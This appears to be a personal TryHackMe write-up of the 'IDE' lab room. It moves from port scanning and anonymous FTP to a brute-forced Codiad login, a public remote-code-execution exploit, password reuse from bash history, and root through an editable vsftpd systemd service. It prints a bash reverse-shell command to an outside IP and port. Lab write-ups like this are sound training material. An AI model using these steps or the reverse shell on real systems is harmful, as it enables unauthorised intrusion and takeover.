 ```yaml
---
title: TryHackMe - IDE
date: 2025-04-26 01:00:00 +0800
categories:
  - TryHackMe
tags:
  - writeups
---
```

Hola, como estas?

Today in my training, I need to do TryHackMe IDE room WITHOUT INTERNET. Let's see how it going. Let's dive into it.

***

# Port Scan

After getting IP address, we start our enumeration with few basic Nmap scan.
- My basic scan
- Only all port scan

**Basic Scan**
```
nmap -sC -sV <ip-address> -oN nmap.scan
```

![](/assets/img/2025-04-28-THM-IDE/basicscan.png)

There are three common open port that we can see here, port 21 (ftp), port 22 (ssh), and port 80 (http).

**Only All Port Scan**
```
nmap -Pn -p- <ip-address>
```

![](assets/img/2025-04-28-THM-IDE/allport.png)

All port scan reveal us there are one more port on 62337. Let's do service scan on that port to see the service.

![](assets/img/2025-04-28-THM-IDE/otherport.png)

Look's like it was also http port. We will enumerate it later.

***

# Service Enumeration

We found that there are anonymous login on FTP port 21. We can have a look inside the FTP to see is it have any useful information.

![](assets/img/2025-04-28-THM-IDE/ftplogin.png)

Based on our anonymous FTP login, it actually bit tricky. There are hidden directory named only using three dot. Inside the directory, we can found file just name dash character. Let's get the file and look what inside. I renamed the file as ftp.output.

![](assets/img/2025-04-28-THM-IDE/ftpout.png)

Looks like we may have login page that need to login using username john and default password.

Next, let's see our http port 80. It's only give us default apache page. We may do some directory discovery to check if there any hidden directory.

![](assets/img/2025-04-28-THM-IDE/apachepage.png)

```
gobuster dir -u http://10.10.9.135/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -s 200 -x php,html,bak,txt,json -e -b ""
```

![](assets/img/2025-04-28-THM-IDE/gobuster.png)

Hurmm while waiting eternity for the gobuster, let's enumerate other port shall we.

Next, on to port 62337. We can open using browser. It's lead us to Codiad 2.8.4 page. You know what I think? SEARCHSPLOIT TIME !

![](assets/img/2025-04-28-THM-IDE/searchsploitcodiad.png)

Wuuu, there are RCE on the Codiad apps with that version. But to execute the RCE, it need to be authenticated. Hurm. Okay let's find the credentials. Referring to the FTP notes that we got earlier, it may use username john. But we need to find the password. Let's try to bruteforce it using common password dictionary attack.

![](assets/img/2025-04-28-THM-IDE/intruder.png)

Just few attempts in, we can found the password using Burpsuite intruder.

![](assets/img/2025-04-28-THM-IDE/intrudersuccess.png)

And look's like we can login to the Codiad.

![](assets/img/2025-04-28-THM-IDE/codiadlogin.png)

***

# Exploitation

Now we already have the credentials. Let's try to exploit using the exploit we found in searchsploit.

```
searchsploit -m 49705
```

![](assets/img/2025-04-28-THM-IDE/exploit.png)
Following the instruction and setting up listener, we got ourself the reverse shell.

![](assets/img/2025-04-28-THM-IDE/successrce.png)

***

Next, we can enumerate on user home directory, there are user.txt inside it. But we don't have enough permission to read the file. We need to enumerate more to find privilege escalation to drac account.

![](assets/img/2025-04-28-THM-IDE/drachome.png)
In, drac home directory, there are few files that may help up. One of the interesting file are in `.bash_history` which show there are mysql password. 

![](assets/img/2025-04-28-THM-IDE/dracpass.png)

Sometimes, in boot2root challenge like this, the password may be useful for something else. So, we can try to login SSH using this password and we success to login.

![](assets/img/2025-04-28-THM-IDE/dracssh.png)

Now we can read the user.txt.

![](assets/img/2025-04-28-THM-IDE/usertxt.png)

***

# Root PrivEsc

First basic things to check is sudo permission of the user. Look's like user drac have sudo groups. Let's check what command drac can run using sudo.

```
sudo -l
```

![](assets/img/2025-04-28-THM-IDE/sudocheck.png)
Look's like drac can run service script for vsftpd using sudo. Let's take a look what the service script does.

To find the script file, we can use find command to find any file with name **vsftpd**.

```
find / -name "*vsftpd*" 2>/dev/null
```

![](assets/img/2025-04-28-THM-IDE/findvsftpd.png)

Searching through the file, there are one file name `/lib/systemd/system/vsftpd.service` that are service script file.

![](assets/img/2025-04-28-THM-IDE/svcfile.png)

To exploit it, we can add reverse shell bash script on the ExecStart option.

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.4.97.219/5555 0>&1"
```

![](assets/img/2025-04-28-THM-IDE/svcfileedit.png)

After editing the service file, run `systemctl daemon-reload` to make the system reload the service file. Setup our listener and run the sudo command to restart vsftpd.

![](assets/img/2025-04-28-THM-IDE/root.png)

And finally, we got the root. 

![](assets/img/2025-04-28-THM-IDE/idememe.jpg)